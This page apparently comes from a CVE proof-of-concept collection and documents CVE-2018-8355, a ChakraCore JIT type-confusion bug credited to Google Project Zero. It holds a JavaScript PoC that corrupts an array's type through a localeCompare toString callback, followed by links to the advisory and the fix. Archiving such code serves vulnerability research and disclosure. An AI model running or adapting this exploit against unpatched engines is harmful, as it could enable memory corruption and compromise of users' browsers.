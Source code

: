 # CVE-2018-8355

- Fix: Aug 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt(arr, s) {
    arr[0] = 1.1;

    if (s !== null) {
        let tmp = 'a'.localeCompare(s);
    }

    arr[0] = 2.3023e-320;
}

function main() {
    let arr = [1.1];

    for (let i = 0; i < 100; i++) {
        'a'.localeCompare('x', []);  // Optimize the JavaScript localeCompare

        opt(arr, null);  // for profiling all instructions in opt.

        try {
            opt(arr, {toString: () => {
                throw 1;  // Don't profile "if (locales === undefined && options === undefined) {"
            }});
        } catch (e) {

        }
    }

    opt(arr, {toString: () => {
        // Called twice
        arr[0] = {};
    }});

    print(arr);
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-8355)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1588)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/cf3ef506236da5b7651f4785966ab3131a4aa083)
